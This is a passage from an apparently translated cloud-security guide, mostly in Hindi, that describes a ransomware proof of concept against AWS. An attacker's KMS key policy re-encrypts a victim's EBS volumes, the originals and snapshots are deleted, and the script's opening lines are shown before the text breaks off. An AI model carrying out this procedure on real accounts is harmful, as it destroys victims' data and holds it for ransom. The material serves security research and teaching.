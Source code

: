 ```json
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Encrypt",
"kms:Decrypt",
"kms:ReEncrypt*",
"kms:GenerateDataKey*",
"kms:DescribeKey"
],
"Resource": "*"
},
{
"Sid": "Allow attachment of persistent resources",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:CreateGrant",
"kms:ListGrants",
"kms:RevokeGrant"
],
"Resource": "*",
"Condition": {
"Bool": {
"kms:GrantIsForAWSResource": "true"
}
}
}
]
}
```
एक पल रुकें ताकि नए सेट किए गए कुंजी नीति का प्रचार हो सके। फिर 'पीड़ित' खाते में वापस जाएं और नए एन्क्रिप्टेड EBS वॉल्यूम में से एक को अटैच करने का प्रयास करें। आप पाएंगे कि आप वॉल्यूम को अटैच कर सकते हैं।

![Pasted image 20231231174131](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/ba9e5340-7020-4af9-95cc-0e02267ced47) ![Pasted image 20231231174258](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/6c3215ec-4161-44e2-b1c1-e32f43ad0fa4)

लेकिन जब आप एन्क्रिप्टेड EBS वॉल्यूम के साथ EC2 इंस्टेंस को फिर से शुरू करने का प्रयास करते हैं, तो यह बस विफल हो जाएगा और 'पेंडिंग' स्थिति से 'रुका हुआ' स्थिति में हमेशा के लिए वापस चला जाएगा क्योंकि अटैच किया गया EBS वॉल्यूम कुंजी का उपयोग करके डिक्रिप्ट नहीं किया जा सकता क्योंकि कुंजी नीति अब इसकी अनुमति नहीं देती।

![Pasted image 20231231174322](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/73456c22-0828-4da9-a737-e4d90fa3f514) ![Pasted image 20231231174352](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/4d83a90e-6fa9-4003-b904-a4ba7f5944d0)

यह वह पायथन स्क्रिप्ट है जिसका उपयोग किया गया है। यह 'पीड़ित' खाते के लिए AWS क्रेड्स और एन्क्रिप्शन के लिए उपयोग की जाने वाली कुंजी के लिए एक सार्वजनिक रूप से उपलब्ध AWS ARN मान लेता है। स्क्रिप्ट लक्षित AWS खाते में सभी EC2 इंस्टेंस से जुड़े सभी उपलब्ध EBS वॉल्यूम की एन्क्रिप्टेड कॉपी बनाएगी, फिर हर EC2 इंस्टेंस को रोक देगी, मूल EBS वॉल्यूम को अटैच से हटा देगी, उन्हें हटा देगी, और अंततः प्रक्रिया के दौरान उपयोग किए गए सभी स्नैपशॉट को हटा देगी। इससे लक्षित 'पीड़ित' खाते में केवल एन्क्रिप्टेड EBS वॉल्यूम रह जाएंगे। इस स्क्रिप्ट का उपयोग केवल परीक्षण वातावरण में करें, यह विनाशकारी है और सभी मूल EBS वॉल्यूम को हटा देगा। आप उपयोग की गई KMS कुंजी का उपयोग करके उन्हें पुनर्प्राप्त कर सकते हैं और स्नैपशॉट के माध्यम से उन्हें उनके मूल स्थिति में बहाल कर सकते हैं, लेकिन मैं आपको यह बताना चाहता था कि यह अंततः एक रैनसमवेयर PoC है।
```
import boto3
import argparse
from botocore.exceptions import ClientError

def enumerate_ec2_instances(ec2_client):
instances = ec2_client.describe_instances()
instance_volumes = {}
for reservation in instances['Reservations']:
```